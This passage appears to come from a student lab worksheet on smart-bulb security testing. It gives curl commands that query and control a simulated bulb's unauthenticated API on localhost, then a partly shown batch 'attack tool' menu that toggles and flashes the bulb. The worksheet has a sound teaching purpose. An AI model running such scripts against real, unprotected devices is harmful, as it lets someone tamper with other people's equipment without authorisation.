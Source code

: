 #### Part 2: Basic Security Testing
**Time: 15 minutes**

1. **Check Device Status**
```bash
# Open Command Prompt and type:
curl http://localhost:8080/api/status
```
- [ ] Record the information received
- [ ] Note any sensitive data exposed

2. **Control Testing**
```bash
# Turn the bulb on
curl -X POST http://localhost:8080/api/control/power -H "Content-Type: application/json" -d "{\"state\": true}"

# Turn the bulb off
curl -X POST http://localhost:8080/api/control/power -H "Content-Type: application/json" -d "{\"state\": false}"
```
- [ ] Did the commands work?
- [ ] What happened on the web interface?

#### Part 3: Attack Simulation
**Time: 20 minutes**

1. **Create Attack Script**
```bash
# Create a new file called attack.bat
notepad attack.bat
```

2. **Copy this code:**
```batch
@echo off
:menu
cls
echo Smart Bulb Attack Tool
echo ====================
echo 1. Turn Bulb ON
echo 2. Turn Bulb OFF
echo 3. Flash Attack
echo 4. Maximum Brightness
echo 5. Color Change Attack
echo 6. Exit

set /p choice="Select attack (1-6): "

if "%choice%"=="1" (
    echo Executing Power ON Attack...
    curl -X POST http://localhost:8080/api/control/power -H "Content-Type: application/json" -d "{\"state\": true}"
)
if "%choice%"=="2" (
    echo Executing Power OFF Attack...
    curl -X POST http://localhost:8080/api/control/power -H "Content-Type: application/json" -d "{\"state\": false}"
)
if "%choice%"=="3" (
    echo Starting Flash Attack (Press Ctrl+C to stop)...
    :flash
    curl -X POST http://localhost:8080/api/control/power -H "Content-Type: application/json" -d "{\"state\": true}"
    timeout /t 1
```